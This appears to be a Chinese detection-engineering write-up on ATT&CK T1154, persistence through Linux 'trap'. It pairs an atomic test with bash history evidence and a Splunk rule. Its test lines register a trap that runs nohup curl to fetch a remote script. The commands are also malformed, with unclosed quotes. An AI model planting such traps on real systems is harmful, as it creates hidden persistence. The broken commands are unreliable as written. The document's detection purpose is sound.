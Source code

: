 # T1154-linux-trap

## 来自ATT&CK的描述

该`trap`命令允许程序和shell指定在接收中断信号时将执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断，如`ctrl+c`和`ctrl+d`。攻击者可以使用它来注册当shell遇到特定中断以执行或作为持久性机制时要执行的代码。陷阱命令具有以下格式`trap 'command list' signals`，其中当接收到“信号”时将执行“命令列表”。

## 测试案例

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh # 脚本即使在退出后（ctrl + c）也会即系执行程序/脚本。

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

关于trap、nohup命令的更多解释，你可以查看参考链接部分。

## 检测日志

bash历史命令

## 测试复现

icbc@icbc:/$ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

> ^C

## 测试留痕

icbc@icbc:/$ history

 693  trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh 

## 检测规则/思路

index=linux sourcetype=bash_history "trap *" | table host,user_name,bash_command

## 参考推荐

MITRE-ATT&CK-T1154:https://attack.mitre.org/techniques/T1154/

linux下trap命令详解：https://blog.csdn.net/carolzhang8406/article/details/46504415/

linux下nohup命令浅析：https://www.bbsmax.com/A/kjdw9606JN/